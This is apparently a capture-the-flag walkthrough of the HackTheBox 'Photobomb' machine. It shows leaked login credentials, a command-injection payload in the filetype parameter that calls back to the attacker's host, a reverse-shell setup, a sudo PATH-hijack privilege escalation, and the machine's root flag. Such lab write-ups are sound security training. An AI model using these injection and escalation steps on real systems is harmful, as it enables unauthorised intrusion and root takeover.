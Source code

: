 ```yaml
---
title: 'Photobomb Writeup'
excerpt: 'Hackthebox Photobomb boot to root writeup'
coverImage: '/assets/blogs/Photobomb.png'
date: '19-12-2022'
---
```

<h1> Hacktheboc Photobomb Writeup </h1>
### Add Domain to Hosts file.
***

Photobomb uses a domain name of ````photobomb.htb````.
```
sudo vi /etc/hosts 
```
and add
```
10.10.11.182  photobomb.htb
```
After visiting to the site, there is a login page present which is 
```
http://photobomb.htb/printer
```
When reading the source code I found a ```photobomb.js``` file . </br>

![image](https://user-images.githubusercontent.com/68991993/208419660-22f2e72b-e5ef-4c91-a077-01c87fdb3d52.png) </br>

Suprisingly the photobomb.js file have login details of the site. </br>

![image](https://user-images.githubusercontent.com/68991993/208420206-d3ea6f2e-f75d-4236-a303-f8a80d9dd8fb.png) </br>

## Login 
I logged in using the url ```http://pH0t0:b0Mb!@photobomb.htb/printer``` </br>

![image](https://user-images.githubusercontent.com/68991993/208422056-5ab9d7eb-6b4a-4c63-91e6-c9acd70e67c7.png)
</br>

## Capturing request using burpsuite.
These are the parameters sent to server. I checked all of them for command injection and found that filetype is vulnerable. 

![image](https://user-images.githubusercontent.com/68991993/208422257-76721764-f14f-4b66-b9a9-c00beb37dd6a.png) </br>
![image](https://user-images.githubusercontent.com/68991993/208429522-b43908d6-18ec-4416-b3e5-76f4baf982ef.png) </br>

To verify that i used curl to send a request to my linux machine. 
1) First started a python server. </br>
 
![image](https://user-images.githubusercontent.com/68991993/208430441-51549e70-c1d9-47a3-933c-1b17cfc3b77d.png) </br>
2) Sent the request in burp using payload 

``` filetype=jpg;curl -XGET 10.10.14.105:8000``` </br>

![image](https://user-images.githubusercontent.com/68991993/208430723-d31e4425-e63e-4d79-9df3-b8ac1d4f2a60.png) </br>

3) Got request to my machine </br>

![image](https://user-images.githubusercontent.com/68991993/208430822-137fbb25-13ac-418a-b909-f90fb378526f.png) </br>

so the command injection is comfirmed and we need to get a reverse shell now.

## Reverse Shell
1) Start a listener </br>
``` sudo netcat -lvnp 9001 ``` </br>
![image](https://user-images.githubusercontent.com/68991993/208432411-7ad35f1a-9c17-4834-8634-b45ab42f1db3.png) </br>

2) Create a payload and url encode it. I used revshells.com to create a python reverse shell. </br>
 
![image](https://user-images.githubusercontent.com/68991993/208433090-ea7b7fe2-d164-4cf4-b0c5-323ee99e2404.png) </br>
![image](https://user-images.githubusercontent.com/68991993/208433241-ea3a1d4d-8760-4ea4-8e52-a93e973326e2.png) </br>

3) Got reverse shell </br>

![image](https://user-images.githubusercontent.com/68991993/208432854-6a3d99ec-1cd9-4a23-8c52-339a5143bc25.png) </br>


## User Flag

![image](https://user-images.githubusercontent.com/68991993/208433730-09e14f80-8757-4a7b-b8fc-2dee3cb61f38.png)

## Root Flag

For the root flag we need to do privilege escalation.
1) Check the sudo rights of user
``` 
$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
2) Reading the /opt/cleanup.sh file
```
$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
3) We can take advantage of the fact that we can change variables such as the path to take a custom find command, and under the context of sudo our find will be executed as root For this we will create a find file that is worth bash and we will give it execution permissions

```
$ echo bash > find
$ chmod +x find 
```
4) Now by changing the path variable we execute the script and get root </br>
```
$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# ls
1  find  log  photobomb.sh  public  resized_images  server.rb  source_images
root@photobomb:/home/wizard/photobomb# cd /
root@photobomb:/# ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
root@photobomb:/# cd root
root@photobomb:~# ls
root.txt
root@photobomb:~# cat root.txt
8380325b1ea2d19343bb97b83ab03359
root@photobomb:~# 
```





